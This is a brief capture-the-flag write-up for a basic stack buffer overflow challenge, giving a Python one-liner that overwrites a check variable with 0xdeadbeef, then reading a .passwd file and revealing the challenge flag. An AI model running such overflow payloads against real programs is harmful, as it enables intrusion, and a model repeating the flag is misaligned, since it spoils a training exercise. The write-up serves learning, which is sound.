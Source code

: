 # ***STACK BUFFER OVERFLOW BASIC 1***

From the given the challenge we have give the buffer value and the check variable have to changed to ```deadbeef```.

We have to give ``deadbeef`` in reverse order since the stack reads them in the reverse order.

```cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13``` 

Then do ``ls -al``.
And ``cat .passwd``
We get ``1w4ntm0r3pr0np1s``
